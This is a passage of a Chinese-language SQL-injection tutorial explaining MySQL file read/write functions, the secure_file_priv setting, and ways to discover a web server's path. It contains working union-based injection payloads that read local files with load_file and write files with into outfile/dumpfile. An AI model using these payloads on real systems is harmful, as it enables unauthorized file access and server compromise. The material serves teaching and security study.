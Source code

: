 - `into dumpfile()`
- `into outfile()`
- `load_file()`

#### MySQL读写文件操作条件

上述函数能否成功执行受到参数 `secure_file_priv` 的影响。官方文档中的描述翻译一下就是

- 其中当参数 `secure_file_priv` 为空(即不进行设置)时，对导入导出无限制
- 当值为一个指定的目录时，只能向指定的目录导入导出
- 当值被设置为NULL时，禁止导入导出功能

在 MySQL 5.5 之前` secure_file_priv` 默认是空，这个情况下可以向任意绝对路径写文件

在 MySQL 5.5之后 `secure_file_priv` 默认是 NULL，这个情况下不可以写文件

#### MySQL文件读写函数

##### load_file() 读取函数

```sql
?id=-1' union select 1,load_file('D:/JayProgram/PHPstudy/PHPTutorial/WWW/test.txt'),3--+
或
?id=-1' union select 1,load_file('D:\\\JayProgram\\PHPstudy\\PHPTutorial\\WWW\\test.txt'),3--+
```

##### into outfile 或 into dumpfile 导出(写入)函数

###### into outfile

```sql
?id=-1' union select 1, 'a\nabc\nabcde' ,3 into outfile 'd:/test.txt'--+
```

###### into dumpfile

```sql
?id=-1' union select 1, 'a\nabc\nabcde' ,3 into dumpfile 'd:/test.txt'--+
```

#### 获取路径及读取文件列表

##### 常见方法

###### 报错显示

网站报错的时候会泄漏出自己的路径（扫描工具/手动探测）

###### 遗留文件

调试软件或者平台遗留下来的文件，经典的就是phpinfo.php(扫描工具可以扫到)

###### 漏洞报错

知道网站是用什么cms或者框架进行搭建的，用搜索引擎去找到对应的爆路径方式，比如搜索phpcms 爆路径

就可以利用该网站相关漏洞爆出网站路径，一般访问相应的文件地址，返回的报错信息就会显示网站路径信息

###### 平台配置文件
